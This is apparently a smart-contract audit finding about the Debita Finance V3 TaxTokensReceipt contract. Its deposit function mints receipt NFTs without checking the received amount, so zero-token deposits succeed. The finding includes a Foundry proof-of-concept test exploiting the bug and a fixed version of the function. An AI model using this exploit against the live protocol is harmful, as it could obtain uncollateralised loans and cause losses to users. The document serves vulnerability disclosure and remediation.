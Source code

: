 Large Felt Owl

Medium

# In TaxTokensReceipt Contract Attacker Can Exploit Deposit Function to Mint NFTs Without Payment

### Summary

The missing validation for the deposited amount in the `deposit` function will cause unauthorized minting of taxable NFTs for the system as attackers can mint NFTs without transferring any tokens by exploiting the tax deduction mechanism.

### Root Cause

In [TaxTokensReceipt.sol:59](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/1465ba6884c4cc44f7fc28e51f792db346ab1e33/Debita-V3-Contracts/contracts/Non-Fungible-Receipts/TaxTokensReceipts/TaxTokensReceipt.sol#L59:L75) `deposit` Function :
There is no check to ensure that the difference in balance (`difference`) is strictly equal to the `amount` parameter provided by the user. This allows attackers to deposit an amount of `0` or an amount reduced by token taxes, yet successfully mint an NFT.

### Attack Path

- The attacker invokes the `deposit` function with a minimal or zero amount.
- Due to insufficient validation, the function accepts the transfer even when no tokens are effectively deposited.
- The attacker successfully mints an NFT (`TaxTokensReceipts`) backed by an invalid deposit.
- The attacker uses the minted NFT to interact with other components of the system (e.g., borrowing or lending) to exploit the platform.

### Impact

- The attacker mints fraudulent NFTs, causing potential financial loss and inflation in the NFT 
- This undermines the trust and integrity of the Debita 
- An attacker could exploit the minted NFT for further attacks (e.g., taking loans without collateral).
- Users' confidence in the platform diminishes due to the lack of proper validation and the potential loss of funds.

### PoC

Please add this test function to `TaxableTestFBomb.t.sol`

```Solidity
function testCreateOrders_PrgZr0() public {
    // Start acting as the buyer address
    vm.startPrank(buyer);
    // Approve the receipt contract to spend tokens on behalf of the buyer
    token.approve(address(receiptContract), 1000e18);
    // Attempt to deposit 0 tokens into the receipt contract
    uint tokenID = receiptContract.deposit(0); // Exploit: Attacker deposits 0 tokens
    // Verify that an NFT was successfully minted despite depositing 0 tokens
    assertEq(receiptContract.balanceOf(buyer), 1); // Exploit: NFT minted for 0 tokens

    // Create a borrow order using the token ID of the minted NFT
    createBorrowOrder(
        5e17,
        4000,
        tokenID,
        864000,
        1,
        fBomb,
        address(receiptContract),
        buyer
    );
    // Create a lend order with specific parameters
    createLendOrder(
        5e17,
        4000,
        864000,
        864000,
        100e18,
        fBomb,
        address(receiptContract),
        buyer
    );
    // Stop acting as the buyer address
    vm.stopPrank();
}
```

### Mitigation

```Solidity
function deposit(uint amount) public nonReentrant returns (uint) {
    require(amount > 0, "Deposit amount must be greater than zero"); // Validate input
    uint balanceBefore = ERC20(tokenAddress).balanceOf(address(this));
    SafeERC20.safeTransferFrom(
        ERC20(tokenAddress),
        msg.sender,
        address(this),
        amount
    );
    uint balanceAfter = ERC20(tokenAddress).balanceOf(address(this));
    uint difference = balanceAfter - balanceBefore;
    require(difference == amount, "Deposit amount mismatch after transfer"); // Ensure exact deposit
    tokenID++;
    tokenAmountPerID[tokenID] = amount;
    _mint(msg.sender, tokenID);
    emit Deposited(msg.sender, amount);
    return tokenID;
}
```